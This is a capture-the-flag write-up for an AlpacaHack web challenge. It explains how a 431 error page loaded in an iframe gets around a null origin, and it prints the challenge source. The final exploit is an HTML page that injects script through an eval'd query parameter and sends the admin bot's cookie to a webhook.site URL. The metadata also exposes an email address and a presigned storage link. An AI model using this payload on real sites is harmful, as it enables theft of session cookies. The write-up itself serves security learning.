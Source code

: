 ```yaml
---
id: 14e48583-e65d-80e6-b8d5-c53f07905d97
title: >-
  Bypassing null Origin in 4xx Status Code Using Iframe | disconnection-revenge
  Writeup | AlpacaHack Round 7 (Web)
created_time: 2024-11-30T11:42:00.000Z
last_edited_time: 2025-05-22T09:27:00.000Z
cover_image: ./imgs/just-a-chill-guy_3tLjvXZj.jpg
icon_emoji: 😭
categories:
  - XSS
verification:
  state: unverified
  verified_by: null
  date: null
page: >-
  Bypassing null Origin in 4xx Status Code Using Iframe | disconnection-revenge
  Writeup | AlpacaHack Round 7 (Web)
owner:
  - object: user
    id: ee7aeeeb-cd0d-4cbb-9e7e-109320ff16fa
    name: Dimas
    avatar_url: >-
      https://s3-us-west-2.amazonaws.com/public.notion-static.com/fab4bcf0-36ea-4bd6-8847-f18b157387da/92920739.png
    type: person
    person:
      email: dimasmaulana0305@gmail.com
_thumbnail: ./imgs/just-a-chill-guy_3tLjvXZj.jpg

---
```


Unfortunately, I solved this challenge only 30 minutes after the CTF ended. Here is my write-up about the challenge.

![](./imgs/image_DwgIE5Io.png)

![](./imgs/image_OeAvG4ga.png)

# Description

This is a fixed challenge of `disconnection`.

[image](https://prod-files-secure.s3.us-west-2.amazonaws.com/39d1be85-e7c6-4263-a666-a42da95a70df/05b115ea-7d4c-4e24-b39d-6e32117c2161/disconnection-revenge.tar.gz?X-Amz-Algorithm=AWS4-HMAC-SHA256\&X-Amz-Content-Sha256=UNSIGNED-PAYLOAD\&X-Amz-Credential=ASIAZI2LB466XOC3LEBR%2F20250523%2Fus-west-2%2Fs3%2Faws4_request\&X-Amz-Date=20250523T095959Z\&X-Amz-Expires=3600\&X-Amz-Security-Token=IQoJb3JpZ2luX2VjEDIaCXVzLXdlc3QtMiJGMEQCIEBdtdhIk7bM1bda4Gbf4il7%2FKkLiITqMVbrVyTGdASSAiBioXogX1ikWh6PjDrIipPgAVAJ30YmLhUiawimzMDaPiqIBAjr%2F%2F%2F%2F%2F%2F%2F%2F%2F%2F8BEAAaDDYzNzQyMzE4MzgwNSIMSUxbJK2yLvjUOVPTKtwDJqFedUbZ69yW0vG5q9iTAuapnuZ6MmAFFfO5D5E2SMnKX1Meo0dlyiZC4Gw34CAo8aE49Y3WA5R%2FjUsw0U1aC2%2FBChQ61CcfOP%2Fa8DxHXq97l8ve6O2TKX1PC%2BTO0RmGSk%2BIyZgMZrIo5HjR1wIZwakihRY2wB%2BlHyDivWohEq0OE%2F4olUI%2BlS%2BwlDG3L3%2Bte19Pu8FWx38%2FBIgzmFFwt6kKEHJB%2Fp2km74ko57cSHEeQDO8oPI0PIe5RaSeVetTTgB%2FhzPgSA15SbKOOBsFWugU7GrWf2Jk9yqGagKbSsB2q2rgDVJSXciNXfPEMC1P%2FsW23wSpBV1i6kQ3CQ8CMKnrC6hH9%2BQ%2FYVwzr3X5Byjknd3drv4iMdqJN0pM9z6poICVT%2BdhHDg4I8BLBnVpsT2qIjnjXEU%2FuPQ1QL0P84vkmxIZcojgIrqNlGO9AKYgDkgWy8i%2FlCpWFUnme%2FTSeEF6PchCcnIVIbMnmRlofxDmk8EMm8H9QnJwhvXedxcqcYG74dHVByWtYim%2FMAwhoS%2F9QkyHrWW%2FTWPNh%2Bw4cYd6Q%2FsBr5OJYdPdIoOTeOW%2BD2o2s74TSp%2BRyBqsJMNkzkuP4pyAB3e6TJ2%2FmU16QixnXB27%2BySauQA2Vd8wiYvBwQY6pgHszbeqZgjty18Qto6yuiDd4nN%2FyhWPOwI3%2BRjMcVr6wBfSlxFzaY25TcKUjEFg0QKCFyog%2Bf3szk3mIExKfGmSgH7aH7hXKtxYuCfp9QBjexn2LwZd44CMC01CbdH5oOeXq1iQMUl0hdsXQO6kl2rFtBK7Nzk226vAhGpxri1TY71rbES9HNMRu%2FetX%2FnhNDBBQUtwIcvY5EiG7edWQfgykX42rgUM\&X-Amz-Signature=7bbd71214b2bdb8ba120378b39f6db6c4963f70ddc0704ea156b3b15932a6cf9\&X-Amz-SignedHeaders=host\&x-id=GetObject)

*   Challenge: [http://34.170.146.252:55944](http://34.170.146.252:55944/), Admin bot: [http://34.170.146.252:56152](http://34.170.146.252:56152/) shared

# Exploit

In this challenge, we are given source code like this:

```javascript
import express from "express";

const html = `
<h1>XSS Playground</h1>
<script>eval(new URLSearchParams(location.search).get("xss"));</script>
`.trim();

express()
  .use("/", (req, res, next) => {
    res.setHeader(
      "Content-Security-Policy",
      "script-src 'unsafe-inline' 'unsafe-eval'; default-src 'none'"
    );
    next();
  })
  .get("/", (req, res) => res.type("html").send(html))
  .all("/*", (req, res) => res.socket.destroy()) // disconnected
  .use((err, req, res, next) => {
    // revenge!
    res.socket.destroy(); // disconnected
  })
  .listen(3000);

```

The interesting part about this source code is in the Content Security Policy (CSP):

```javascript
res.setHeader(
  "Content-Security-Policy",
  "script-src 'unsafe-inline' 'unsafe-eval'; default-src 'none'"
);

```

The disconnect mechanism:

```javascript
.all("/*", (req, res) => res.socket.destroy()) // disconnected
.use((err, req, res, next) => {
  // revenge!
  res.socket.destroy(); // disconnected
})

```

There's also a code injection vulnerability here that allows us to gain XSS:

```javascript
const html = `
<h1>XSS Playground</h1>
<script>eval(new URLSearchParams(location.search).get("xss"));</script>
`.trim();
```

The flag is located in the `/cookie` path, as shown in this snippet of the source code:

```javascript
await page.setCookie({
  name: "FLAG",
  value: FLAG,
  domain: APP_HOST,
  path: "/cookie", // 🍪
});

```

The interesting part is that we can't get the flag easily by accessing `/cookie` directly using XSS and get the cookie from that. The disconnect mechanism causes us to be instantly disconnected when accessing any URL except `/`, resulting in a browser error. Therefore, when we try to access URLs like `/cookie`, the browser will instantly error ERR\_EMPTY\_RESPONSE, and the origin will be null as shown in the image below.

![](./imgs/image_xyiZIUrb.png)

There’s a trick introduced in a previous Google CTF to bypass this issue, as detailed in this [Google CTF solution](https://github.com/google/google-ctf/tree/8ea1054a4a6af49e8cf14e10896dc94d73126a29/2023/quals/web-postviewer2/solution#no-csp-subpage). The trick involves adding an arbitrarily large number of characters into the parameters to make the server return `431 (Request Header Fields Too Large)`. However, simply adding a large number of characters to the parameters won't work, as shown in the image below, where the origin is still null.

![](./imgs/image_oXKFjaHs.png)

The key is to iframe the `431` page, which somehow makes the origin become the original origin instead of null, as shown in the image below.

![](./imgs/image_U9FpYp4t.png)

But… there’s always a problem after problem. The cookie isn’t included in the iframe because the cookie isn’t set to `SameSite=None`, so it’s not included in the iframe in a different origin.

![](./imgs/image_nVR512CH.png)

I just found a strange trick after trying to open a new opener inside the `/cookie` path here:

![](./imgs/image_8Oq9CJYo.png)

When I try to `open("")`, it will have an origin, and the location is `about:blank`. There’s also the flag that should be in the `/cookie` path. I assume that the window we open is somehow in the `/cookie` path, but with the `about:blank` location. I don't know why this happens 💀. But here is my final exploit:

```html
<html>
    <body>
        <iframe></iframe>
        <iframe></iframe>
        <script>
            async function main(){
                const target = "disconnection-revenge"
                const sleep = (ms) => new Promise(resolve => setTimeout(resolve, ms));
                var iframe = document.getElementsByTagName('iframe')[0];
                iframe.src = "http://"+target+":3000/cookie/?"+"A".repeat(100000);
                await sleep(1000);
                var iframe2 = document.getElementsByTagName('iframe')[1];
                iframe2.src = "http://"+target+":3000/?xss="+"w = top.frames[0].open('');setTimeout(()=>{open(`https://webhook.site/37fa4a4c-9842-42db-9431-a15d81aee4a0?${w.document.cookie}`)},1000)";
                await sleep(1000);
            }
            main();
        </script>
    </body>
</html>

```

![](./imgs/image_BQK3W663.png)
